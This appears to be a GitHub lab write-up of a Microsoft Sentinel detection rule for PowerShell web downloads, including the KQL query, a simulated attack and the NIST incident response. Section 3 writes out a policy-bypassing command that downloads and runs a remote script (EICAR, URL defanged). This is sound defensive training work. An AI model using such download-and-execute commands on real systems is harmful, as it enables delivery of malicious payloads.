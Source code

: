 # Project: Creating a Sentinel Detection Rule for Malicious Downloads

### 1. Project Objective

This project demonstrates the end-to-end process of creating a custom detection rule in Microsoft Sentinel and then working the resulting incident to completion. The goal was to design a query that detects when PowerShell's `Invoke-WebRequest` command is used to download remote files, a common tactic used by attackers for post-exploitation activities.

---

### 2. Detection Rule Creation & Configuration

#### The Detection Logic
A KQL (Kusto Query Language) query was designed to search the `DeviceProcessEvents` table for any command-line activity involving PowerShell and the `Invoke-WebRequest` cmdlet (or its common aliases `iwr` and `wget`).

**The KQL Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-06-06T04:49:00Z) .. datetime(2025-06-07T04:38:00Z)) // Pinned time range for report integrity. A live rule would use: | where TimeGenerated >= ago(24h)
| where (FileName contains "powershell.exe" or FileName contains "pwsh.exe") 
  and (ProcessCommandLine contains "Invoke-WebRequest" or ProcessCommandLine contains "iwr" or ProcessCommandLine contains "wget")
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine, ProcessCommandLine
| sort by TimeGenerated desc

```

#### Sentinel Rule Configuration
In Microsoft Sentinel, this KQL query was used to create a new Scheduled Analytics Rule with the following settings:

* **Query Scheduling:** Run query every 4 hours, looking up data from the last 24 hours.
* **Entity Mapping:** To enable automatic incident correlation and investigation features, the following entities were mapped from the query's output columns:
  
| Entity  | Identifier  | Value              |
| :------ | :---------- | :------------------|
| Account | Name        | AccountName        |
| Host    | HostName    | DeviceName         |
| Process | CommandLine | ProcessCommandLine |

### 3. Simulating the Attack & Triggering the Alert
To validate the rule, a command was executed on a test virtual machine to simulate an attacker downloading a payload. This command downloads the harmless EICAR test file and then executes it. Although the download is harmless the URI was defanged as a good practice.

```powershell
# Download the script
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar[.]ps1' -OutFile 'C:\programdata\eicar.ps1';

# Execute the script
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---
### 4. Incident Response (Following NIST 800-61)
The simulation successfully triggered the "Z-PowerShell Suspicious Web Request" incident in Sentinel. The incident was triaged and worked to completion following the NIST Incident Response Lifecycle.

#### Detection and Analysis
The triggered alert showed that over a 24-hour period, 35 machines had downloaded suspicious scripts from a GitHub repository. The most notable scripts were:

* `portscan.ps1`
* `pwncrypt.ps1`
* `eicar.ps1`
* `exfiltratedata.ps1`

The malware analysis team provided a one-liner for each script's purpose:

* `exfiltratedata.ps1`: A script that compresses user data for theft and exfiltration.
* `portscan.ps1`: A reconnaissance script used to scan a network for open ports.
* `pwncrypt.ps1`: A ransomware script designed to encrypt a victim's files for extortion.
* `eicar.ps1`: A harmless test file to verify antivirus detection.

#### Containment, Eradication, and Recovery
* **Containment:** All 35 affected devices were immediately isolated using Microsoft Defender for Endpoint to prevent any further damage or lateral movement.
* **Eradication:** An antivirus scan was initiated on all isolated devices.
* **Recovery:** A plan was put in place with the IT team to reimage all affected machines to ensure they are restored to a known-good state.

#### Post-Incident Activities
The investigation revealed that the activity was likely triggered by a coordinated phishing campaign.

* **User Training:** Worked with management to facilitate a phishing training exercise, as several users reported clicking a suspicious email regarding bonuses.
* **Policy Hardening:** Began the implementation of a new security policy to restrict the use of PowerShell for all non-essential users, reducing the attack surface.
* **Case Closure:** The incident was officially closed in Sentinel as a True Positive.
